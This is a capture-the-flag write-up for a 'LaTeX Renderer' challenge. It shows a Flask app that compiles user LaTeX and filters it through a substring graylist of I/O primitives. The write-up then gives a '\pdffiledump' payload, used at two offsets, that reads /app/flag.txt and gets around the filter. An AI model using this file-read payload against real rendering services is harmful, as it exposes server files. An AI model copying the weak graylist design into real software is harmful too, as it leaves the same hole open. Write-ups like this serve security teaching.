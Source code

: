 # LaTeX Renderer

<figure><img src="../../../../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Flag @ /app/flag.txt</p></figcaption></figure>

### Source code



```python
import os
import re
import subprocess
from flask import Flask, request, send_file
import random
import string

app = Flask(__name__)


graylist = [
    "^^",
    "afterassignment",
    "aftergroup",
    "batchmode",
    "catcode",
    "closein",
    "closeout",
    "command",
    "document",
    "def",
    "errhelp",
    "errcontextlines",
    "errorstopmode",
    "every",
    "expand",
    "expandafter",
    "immediate",
    "include",
    "input",
    "jobname",
    "loop",
    "lowercase",
    "makeat",
    "meaning",
    "message",
    "named",
    "newhelp",
    "noexpand",
    "nonstopmode",
    "open",
    "output",
    "pagestyle",
    "package",
    "pathname",
    "read",
    "relax",
    "repeat",
    "shipout",
    "show",
    "scrollmode",
    "special",
    "syscall",
    "toks",
    "tracing",
    "typeout",
    "typein",
    "uppercase",
    "write",
]

wrapper = "\\documentclass[12pt]{article}\n\\usepackage[latin1]{inputenc}\n\\usepackage{amsmath}\n\\usepackage{amsfonts}\n\\usepackage{amssymb}\n\\usepackage[mathscr]{eucal}\n\\pagestyle{empty}"


def generate_random_string(length=5):
    """Generate a random string of a specified length."""
    letters = string.ascii_letters + string.digits
    return "".join(random.choice(letters) for _ in range(length))


@app.route("/", methods=["GET"])
def index():
    return "Welcome Hacker! go grab your easy win."


@app.route("/render", methods=["GET"])
def render_latex():
    try:
        latex = request.args.get("latex", "")

        for word in graylist:
            if word in latex:
                return {"error": f"Graylist word detected."}, 403

        latex = wrapper + "\n\\begin{document}\n" + latex + "\n\\end{document}"
        rand = generate_random_string()
        path = f"temp_{rand}"
        with open(f"{path}.tex", "w") as f:
            f.write(latex)

        subprocess.run(["latexmk", "-pdf", "-interaction=nonstopmode", f"{path}.tex"])

        return send_file(
            f"{path}.pdf", as_attachment=True, download_name="rendered_pdf.pdf"
        )

    except Exception:
        return {"error": "hmm amigo.."}, 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

### Payload



This task has filters that fobid us from reach I/O functions of LATEx

but \pdffiledump isn't graylisted

Crafting the payload&#x20;

<pre class="language-latex"><code class="lang-latex"><strong>\pdffiledump offset 0 length 1000 {/app/flag.txt}
</strong></code></pre>

<figure><img src="../../../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we got a part of the flag we need the missing piece

<figure><img src="../../../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Part II payload , added offset

```latex
\pdffiledump offset 30 length 1000 {/app/flag.txt}
```

<figure><img src="../../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Boom

<figure><img src="../../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>
